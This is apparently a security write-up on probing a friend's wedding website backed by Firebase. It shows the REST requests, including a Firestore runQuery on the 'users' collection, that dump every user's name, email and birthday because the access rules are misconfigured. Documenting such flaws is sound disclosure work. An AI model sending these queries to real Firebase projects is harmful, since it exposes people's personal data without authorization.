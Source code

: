 # The research goal
A friend of mine created a wedding website and I wanted to make sure it's secured.

# The research
## Requests inspections
Looking through the requests the website seems pretty well written- they use a lot of google APIs for their authentication and storage. So what could go wrong?

## The different requests
As every website, there're a lot of requests, but seems most of the logic was using Google APIs - auth and storage. Let's have some fun and research the Google APIs.

### login
request:
```
POST identitytoolkit.googleapis.com/v1/accounts:signInWithPassword?key={{key}}

{
  "returnSecureToken": true,
  "email": "homigrotas@some.mail",
  "password": "testtest",
  "clientType": "CLIENT_TYPE_WEB"
}
```

response:
```json
{
	"error": {
		"code": 400,
		"message": "INVALID_LOGIN_CREDENTIALS",
		"errors": [
			{
				"message": "INVALID_LOGIN_CREDENTIALS",
				"domain": "global",
				"reason": "invalid"
			}
		]
	}
}
```

### storage
After I created a user and logged in, I saw a weird API call I wasn't familliar with in websites:


```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:runAggregationQuery
```
Who doesn't want to query a DB? Certianly I LOVE!
<br>
So, first we would like to know which collections exist. Trying the following request
```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:listCollectionIds
```

response:
```
{
  "error": {
    "code": 403,
    "message": "Missing or insufficient permissions.",
    "status": "PERMISSION_DENIED"
  }
}
```
well... maybe I wasn't so smart after all. They probably set permissions, and ofcourse I don't enough permissions to get all the project collection. Do I?

I saw I was able to change the aggergation query, so maybe I could make some quries?

request
```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:runAggregationQuery\

{
  "structuredAggregationQuery": {
    "aggregations": [
      {
        "alias": "aggregate_0",
        "count": {}
      }
    ],
    "structuredQuery": {
      "from": [
        {
          "collectionId": "eventChats"
        }
      ]
    }
  }
}
```

response
```json
[{
  "result": {
    "aggregateFields": {
      "aggregate_0": {
        "integerValue": "0"
      }
    }
  },
  "readTime": "2025-08-01T15:34:01.251261Z"
}
]
```


Eventually, I found the following query using [firestore API documentation](https://cloud.google.com/firestore/docs/reference/rest/v1/projects.databases.documents/runQuery). Let's try to query possible collections. As we already know, we're familliar with one collection in the Firestore storage, but I didn't find it meaningful as we could scrape it. What about the website users?

```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:runQuery

{
  "structuredQuery": {
    "from": [{ "collectionId": "users" }]
  
  }
}
```

And we got our desire- all the users!
```
[{
  "document": {
    "name": "projects/{{project_id}}/databases/(default)/documents/users/0vg....",
    "fields": {
      "firebaseUid": {
        "stringValue": "0vg...."
      },
      "name": {
        "stringValue": "...."
      },
      "email": {
        "stringValue": "...@gmail.com"
      },
      "profileImageUrl": {
        "stringValue": "..."
      },
      "birthday": {
        "stringValue": "1998-08-17"
      },
      "createdAt": {
        "timestampValue": "2025-07-21T16:44:44.075Z"
      },
      "updatedAt": {
        "timestampValue": "2025-07-21T16:44:44.075Z"
      }
    },
    "createTime": "2025-07-21T16:44:44.123596Z",
    "updateTime": "2025-07-21T16:44:44.123596Z"
  },
  "readTime": "2025-08-01T14:16:16.474399Z"
},
    ....
]
```
